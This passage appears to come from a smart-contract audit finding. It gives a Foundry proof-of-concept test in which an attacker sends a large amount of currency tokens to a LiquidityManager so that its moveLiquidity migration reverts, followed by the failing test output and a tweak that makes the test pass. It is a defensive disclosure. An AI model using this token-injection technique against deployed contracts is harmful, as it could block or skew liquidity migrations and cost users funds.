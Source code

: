 ```solidity
    // deal currency tokens to the attacker
    deal(address(currencyToken), attacker, 10_000_000e18);
    
    // Impersonate the attacker.
    vm.startPrank(attacker);
    uint256 extraIQTokens = currencyToken.balanceOf(attacker); // Amount chosen for demonstration.

    // transfer the currency tokens to the manager contract
    currencyToken.transfer(address(manager), extraIQTokens);
    
    // --- Migrate Liquidity ---
    manager.moveLiquidity();
    
    // After migration, retrieve the Fraxswap pair created by the LiquidityManager.
    IFraxswapPair fraxswapPair = IFraxswapPair(
        manager.fraxswapFactory().getPair(address(currencyToken), address(token))
    );
    (uint112 fraxIQ, uint112 fraxAgent, ) = fraxswapPair.getReserves();
    console2.log("Fraxswap Pool IQ Reserve:", fraxIQ);
    console2.log("Fraxswap Pool Agent Token Reserve:", fraxAgent);
    
    // Compute the final price in Fraxswap.
    uint256 finalPrice = (uint256(fraxIQ) * 1e18) / uint256(fraxAgent);
    console2.log("Final Price in Fraxswap (IQ per agent token):", finalPrice);
    
    vm.stopPrank();
}
```

With that implementation, the test fails because the manager contract doesn't have enough agent token balance:

```
[FAIL. Reason: ERC20InsufficientBalance(0x20518cf72FF021e972F704d5B56Ab73FC163713d, 62348026684955421160920257 [6.234e25], 62348026684955421403284271 [6.234e25])] test_MoveLiquidity_TokenInjection() (gas: 48955838)
```

To verify that this test works otherwise, change this line:

```solidity
deal(address(currencyToken), attacker, 10_000_000e18);
```

to

```solidity
deal(address(currencyToken), attacker, 9_000_000e18);
```

By decreasing the amount of currency tokens the attacker adds, the test and the migration will be successful.

---

## Summary
